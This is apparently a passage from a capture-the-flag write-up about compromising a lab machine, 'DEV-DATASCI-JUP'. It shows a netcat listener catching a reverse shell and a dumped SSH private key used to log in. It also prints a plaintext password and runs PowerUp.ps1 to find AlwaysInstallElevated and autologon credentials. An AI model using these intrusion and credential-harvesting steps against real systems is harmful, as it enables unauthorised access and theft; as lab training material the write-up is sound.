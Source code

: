 ```python
    s.close()
```

We can start our listener with `nc -lvnp 1337` and execute the code.

This gets us a callback:

`uname -a`
```
Linux DEV-DATASCI-JUP 4.4.0-17763-Microsoft #2268-Microsoft Thu Oct 07 16:36:00 PST 2021 x86_64 x86_64 x86_64 GNU/Linux
```

There is an ssh private key in `/home/dev-datasci/dev-datasci-lowpriv_id_ed25519`
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBUoe5ZSezzC65UZhWt4dbvxKor+dNggEhudzK+JSs+YwAAAKjQ358n0N+f
JwAAAAtzc2gtZWQyNTUxOQAAACBUoe5ZSezzC65UZhWt4dbvxKor+dNggEhudzK+JSs+Yw
AAAED9OhQumFOiC3a05K+X6h22gQga0sQzmISvJJ2YYfKZWVSh7llJ7PMLrlRmFa3h1u/E
qiv502CASG53Mr4lKz5jAAAAI2Rldi1kYXRhc2NpLWxvd3ByaXZAREVWLURBVEFTQ0ktSl
VQAQI=
-----END OPENSSH PRIVATE KEY-----
```

Because we know there is a user called `dev-datasci-lowpriv`, we can log in with `ssh -i user.priv dev-datasci-lowpriv@10.10.111.30`

```
wUqnKWqzha*W!PWrPRWi!M8faUn
```
We get the user flag in `C:\Users\dev-datasci-lowpriv\Desktop\user.txt`

# Privilege Escalation 

### AlwaysInstallElevated (Method 1)

We can use `PowerUp.ps1` to look for privesc vectors

First, import with `Import-Module .\PowerUp.ps1`

Then run `Invoke-AllChecks`

The last result is as follows:

```
Check         : AlwaysInstallElevated Registry Key
AbuseFunction : Write-UserAddMSI

DefaultDomainName    : DEV-DATASCI-JUP
DefaultUserName      : dev-datasci-lowpriv
DefaultPassword      : wUqnKWqzha*W!PWrPRWi!M8faUn
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 
Check                : Registry Autologons
```
